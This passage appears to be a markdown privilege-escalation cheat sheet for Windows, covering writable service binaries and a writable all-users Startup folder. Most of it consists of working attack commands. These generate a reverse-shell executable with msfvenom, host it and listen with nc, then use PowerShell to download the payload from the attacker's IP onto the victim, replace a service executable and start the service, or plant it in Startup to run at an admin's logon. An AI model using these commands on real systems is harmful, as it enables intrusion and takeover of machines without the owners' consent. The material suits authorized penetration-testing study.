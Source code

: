 - Exploitation
- Attacker
- 
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
  sudo python -m SimpleHTTPServer 80
  sudo nc -lvp <PORT>
  ```

- Victim
  - 
    ```
    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', 'C:\Temp\program.exe')
    copy /y c:\Temp\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
    sc start filepermsvc
    ```

##### Startup applications
- Detection
- 
  ```
  icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

  C:\>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                              TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                              NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                              BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                              BUILTIN\Users:(I)(OI)(CI)(RX)
                                                              Everyone:(I)(OI)(CI)(RX)

  If the user you're connecte with has full access ‘(F)’ to the directory (here Users) then it's vulnerable.
  ```

- Exploitation
- Attacker
- 
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
  sudo python -m SimpleHTTPServer 80
  sudo nc -lvp <PORT>
  ```

- Victim
- 
  ```
  cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

  To execute it with elevated privileges we need to wait for someone in the Admin group to login.
  ```
